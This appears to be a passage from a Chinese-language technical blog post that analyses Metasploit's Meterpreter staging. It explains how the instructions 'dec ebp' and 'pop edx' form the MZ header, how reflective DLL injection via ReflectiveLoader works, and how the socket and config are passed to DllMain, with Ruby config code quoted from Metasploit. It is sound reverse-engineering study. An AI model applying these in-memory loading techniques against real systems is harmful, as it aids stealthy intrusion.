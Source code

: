 不得不说这段十分巧妙，我们想想刚才的流程是什么，排开那个 `mov edi, &socket` 不论，剩下的就是从传回来的载荷的首地址开始跑了，那假如是一个dll文件，你把一个平常的dll文件，VirtualAlloc后直接跳到地址跑，能跑起来吗？显然是不能的，我们看看msf中的处理

我们上面的代码分析过，这个汇编最后是替换了dll的头部，pe文件的头部就是dos头，dos头必须是MZ开头，不然这个根本算不上一个pe文件

那 `dec ebp` 和 `pop edx` 算怎么回事？

其实这两条汇编的机器码就是

```
\x4D # dec ebp
\x5A # pop edx
```

恰好构成了MZ头，然后继续往下跑，调用了ReflectiveLoader()，这个是反射dll技术，具体代码技术细节可以见 [https://github.com/stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)

调用该dll导出函数 `ReflectiveLoader` 的主要功能就是加载dll自身到内存中，然后返回dllmain的函数地址，返回值是在eax里面

然后调用 `mov [ebx], edi        ; write the current socket/handle to the config` 把edi也就是上文提到的socket句柄地址存入ebx执行的内存，上面可以看到

```asm
 ; offset from ReflectiveLoader() to the end of the DLL
add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}
```

这段汇编把ebx指向到了该dll加载空间的末尾

紧接着执行

```asm
push ebx              ; push the pointer to the configuration start
push 4                ; indicate that we have attached
push eax              ; push some arbitrary value for hInstance
call eax              ; call DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr)
```

调用储存在eax中的dllmain的函数

其中的ebx到底是什么？

我们把目光再往外层拉

```
  def stage_payload(opts={})
    stage_meterpreter(opts) + generate_config(opts)
  end

  def generate_config(opts={})
    ds = opts[:datastore] || datastore
    opts[:uuid] ||= generate_payload_uuid

    # create the configuration block, which for staged connections is really simple.
    config_opts = {
      arch:              opts[:uuid].arch,
      null_session_guid: opts[:null_session_guid] == true,
      exitfunk:          ds[:exit_func] || ds['EXITFUNC'],
      expiration:        (ds[:expiration] || ds['SessionExpirationTimeout']).to_i,
      uuid:              opts[:uuid],
      transports:        opts[:transport_config] || [transport_config(opts)],
      extensions:        [],
      stageless:         opts[:stageless] == true
    }

    # create the configuration instance based off the parameters
    config = Rex::Payloads::Meterpreter::Config.new(config_opts)

    # return the binary version of it
    config.to_b
  end
```
